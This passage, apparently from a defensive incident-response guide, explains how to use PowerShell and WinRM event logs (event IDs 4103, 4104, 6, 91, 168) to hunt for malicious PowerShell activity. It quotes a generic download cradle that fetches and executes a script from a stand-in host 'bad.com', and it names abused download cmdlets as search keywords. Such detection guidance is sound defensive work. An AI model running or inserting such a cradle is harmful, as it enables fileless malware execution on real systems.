 Most logging is not enabled by default, so the data might not be available when needed. However, Microsoft did enable a built-in feature to automatically log any suspicious scripts, even if script block logging is disabled. This is valuable for investigators reviewing the **Microsoft-Windows-PowerShell/Operational** log, even in organisations that have not yet enabled full auditing.

**Microsoft-Windows-WinRM/Operational** log tracks WinRM connections, which happens to be the primary protocol for PowerShell remoting. The log is available on both source and destination systems. It records the destination hostname, IP, and currently logged-on user (Event ID 6), as well as the source of session creation (Event ID 91) and the authenticating user account (Event ID 168).

#### PowerShell Syntax to Achieve Stealth

<figure><img src="../../../../.gitbook/assets/Screenshot 2023-10-01 130620.png" alt=""><figcaption></figcaption></figure>

**Investigator Notes**: Like many attacker behaviours, a limited set of syntax is frequently used to make malicious PowerShell activity more difficult to discover. While **(New-Object System.Net.Webclient).DownloadFile()** is the most common within many attack frameworks; it is not the only way to download files using PowerShell. Also, look for commonly abused commands like **Start-BitsTransfer** and **Invoke-WebRequest.**

**Quick Wins in the PowerShell/Operational Log**

* Event may capture different parts of an attack
  * 4103 recorks module/pipeline output
  * 4104 records code (scripts) executed (look for “Warning” events)
* The PowerShell download cradle sees heavy use in the wild:
  * IEX (New-Object Net.Webclient).downloadstring("http://bad.com/bad.ps1")
* Filter using commonly abused keywords

<figure><img src="../../../../.gitbook/assets/Screenshot 2023-10-01 131346.png" alt=""><figcaption></figcaption></figure>

* Look for obvious signs of encoding and obfuscation

**Investigator Notes:** As PowerShell becomes more common in the enterprise, many legitimate scripts will likely be recorded in the **PowerShell/Operational** log. Your task as an analyst is to find any evil that may be hiding among that legitimate activity.

**Note**: While EID 4104 events (script block logging) are the latest and greatest in the PowerShell auditing world, don’t ignore the older EID 4103 (module logging) events. Both events log activity from different perspectives. Module logging focuses on PowerShell pipeline execution. Almost every command uses several modules or cmdlets, and EID 4103 events can include variables, commands, interim output, and even some deobfuscation. Script logging (EID 4104) records the code blocks executed, providing excellent deobfuscation, including dynamically generated script contents, but typically no output.&#x20;

Windows will label suspicious events as EID 4104 “Warning” events. This can help the analyst distinguish from other EID 4104 events and perhaps be a good first filter run to narrow the focus to events that Windows has already identified. You may see duplicate information between the two event types, but you may also find important differences that allow a deeper understanding of an attack.

**Note**: The download cradle is one of the most dangerous (and common) PowerShell attacks in the wild today. It uses the benign PowerShell executable (or elements thereof) to execute file-less, memory-only malicious scripts downloaded from the internet. The above shows the most generic version of the cradle, but attackers have developed many ways to change or obfuscate elements to better hide from security software. The good news is obfuscation is almost, by definition, going to look strange to an analyst, by the bad news is that the analyst has a lot of log entries to find the obfuscated commands. A good list of keywords to start searching for is present in the above image. Each one of these keywords can be obfuscated by attackers. Still, one or more will usually provide solid hits, particularly since PowerShell logging also often includes the unobfuscated version of scripts. Just like hunting using other artifacts, defenders must continually be creative to find new ways attackers hide their activity.
